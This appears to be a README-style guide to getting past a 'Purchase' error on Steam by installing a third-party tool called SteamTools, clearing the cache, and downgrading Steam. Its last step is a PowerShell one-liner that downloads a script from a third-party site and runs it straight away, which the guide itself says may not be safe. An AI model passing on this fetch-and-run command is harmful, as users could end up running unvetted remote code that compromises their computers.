


# How to Fix the "Purchase" Error on Steam

If you encounter the **"Purchase" error** when trying to install a game on Steam, follow these steps to resolve the issue.

---

## 1. Install SteamTools ⚙️

You need to install the Chiness **SteamTools** to fix that.

**Steps:**
1. Download SteamTools here: [https://steamtools.net/download](https://steamtools.net/download)
2. Once installed, an icon will appear. Click on it and **Restart**.
3. After restarting, you should be able to install games on Steam.

> 💡 **Tip:** Make sure Steam is closed before using SteamTools for the first time.



---

## 2. Clear the Cache 🧹

If the issue persists after installing SteamTools, try **clearing your Steam cache**.

> ⚠️ **Warning:** Clearing cache will reset some settings, but it won’t delete your installed games.



---

## 3. Downgrade Steam to 32-bit 🔄

If the error still occurs, you may try to **downgrade Steam by one version to 32-bit**.

>⚠️ **Important security notice:**
The following script is NOT made or endorsed by SteamTools or Valve. It is downloaded from a third-party website, and its safety cannot be guaranteed.

**Steps:**
1. Open **PowerShell**.
2. Run the following command:

```powershell
iwr -useb "https://luatools.vercel.app/SteamDowngrader.ps1" | iex


